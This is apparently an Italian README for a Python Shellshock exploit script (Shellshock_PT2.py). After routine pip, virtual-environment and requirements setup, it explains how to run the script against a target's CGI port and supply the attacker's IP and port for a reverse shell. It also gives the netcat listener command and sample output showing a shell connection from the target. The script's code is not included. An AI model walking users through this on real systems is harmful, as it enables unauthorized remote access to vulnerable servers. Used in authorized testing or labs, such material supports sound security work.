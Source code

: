 ## Prerequisiti

  

  

-  **Python**: 3.10.12

  

  

-  **Pip**: 22.0.2

  

  

## Installazione

  

  

### Installare `pip` su Ubuntu

  

  

Se non hai `pip` e stai usando Ubuntu, puoi installarlo utilizzando lo script `get-pip.py`.

  

  

#### Passaggi:

  

  

1.  **Scarica lo script `get-pip.py`:**

  

Prima, devi scaricare il file `get-pip.py`. Puoi farlo utilizzando `curl` o `wget`:

  

  

- Con `curl`:

  

```bash

  

curl  https://bootstrap.pypa.io/get-pip.py  -o  get-pip.py

  

```

  

  

- Con `wget`:

  

```bash

  

wget  https://bootstrap.pypa.io/get-pip.py

  

```

  

  

2.  **Installa `pip` eseguendo il file `get-pip.py`:**

  

Una volta scaricato il file, esegui il comando per installare `pip`:

  

  

Python 3.x:

  

```bash

  

python3  get-pip.py

  

```

  

  

Se necessario, puoi anche usare `sudo` su Ubuntu per avere i permessi di amministratore:

  

  

```bash

  

sudo  python3  get-pip.py

  

```

  

  

#### Verifica l'installazione di `pip`:

  

  

Dopo l'installazione, puoi verificare che `pip` sia stato correttamente installato con il comando:

  

  

```bash

  

pip  --version

```

## Creare un ambiente virtuale in Python su Ubuntu

  

#### Passaggi

  

1.  **Installa**  `venv` (se non è già installato) `venv` è il modulo ufficiale di Python per la creazione di ambienti virtuali. Su Ubuntu, `venv` dovrebbe essere già incluso con Python 3. Tuttavia, se non fosse presente, puoi installarlo con:

```bash

sudo  apt  install  python3-venv

```

  

2.  **Crea l'ambiente virtuale**

```bash

python3  -m  venv  venv

```

  

3.  **Attiva l'ambiente virtuale**

```bash

source  venv/bin/activate

```

Una volta attivato, il prompt del terminale cambierà per indicare che sei dentro l'ambiente virtuale. Di solito, mostrerà qualcosa come `(myenv)` prima del prompt.

  

## Installare le dipendenze

  

1.**Le dipendenze** di un progetto Python sono generalmente elencate in un file chiamato `requirements.txt`. Per installare tutte le dipendenze all'interno dell'ambiente virtuale, usa il comando `pip`:

```bash

pip  install  -r  requirements.txt

```

  
  
  

## Eseguire lo script

Una volta installata le librerie ed aver attivato l'ambiente virtuale, puoi eseguire lo script usando il comando Python:

  

```bash

python  Shellshock_PT2.py

```

Se usi Python 3, e hai entrambi Python 2.x e 3.x installati, potrebbe essere necessario usare:

  

```bash

python3  Shellshock_PT2.py

```

## Interazione con lo script:

Lo script ti chiederà delle informazioni in input. Quando eseguirai lo script, ti verranno chiesti i seguenti dati:

  


- Indirizzo IP del target: L'indirizzo IP del server vulnerabile su cui vuoi inviare il payload.

  

- Porta del CGI: La porta su cui il CGI (Common Gateway Interface) è in esecuzione sul server del target (di solito 80 per HTTP o 443 per HTTPS).

  

- Indirizzo IP locale (tuo): Il tuo indirizzo IP sul quale ascolterai la shell di ritorno.

  

- Porta del listener Netcat: La porta sulla quale il tuo listener Netcat è in attesa di connessioni in ingresso (deve essere lo stesso indirizzo e porta che usi per il listener Netcat).

```bash
Inserisci l'indirizzo IP del target: 192.168.1.100
Inserisci la porta del CGI (solitamente 80 o 443): 80
Inserisci il tuo indirizzo IP per la reverse shell: 192.168.1.10
Inserisci la porta del tuo listener Netcat: 4444
```

  

## Configurazione del listener Netcat

Prima di eseguire lo script, devi avviare il listener Netcat sul tuo computer per ascoltare la connessione in arrivo. Puoi farlo con il comando:

  

```bash

nc  -lvnp <porta>

```

Ad esempio, se la tua porta è 4444, esegui:

  

```bash

nc  -lvnp  4444

```

Questo comando avvierà un listener sulla porta 4444 in attesa di una connessione.

  

## Esegui il test

Una volta che il listener Netcat è attivo e hai inserito i dati richiesti dallo script, lo script invierà il payload al target. Se tutto è configurato correttamente, il target dovrebbe connettersi al tuo Netcat, dandoti una **reverse shell**.

Dopo aver inviato il payload, il terminale di Netcat dovrebbe mostrare una connessione stabilita.

### Esempio di output del listener Netcat

```bash
listening on [any] 4444 ...
connect to [192.168.1.10] from (UNKNOWN) [192.168.1.100] 12345
```

Se vedi questo tipo di output, significa che la reverse shell è riuscita e hai ottenuto l'accesso al sistema target.
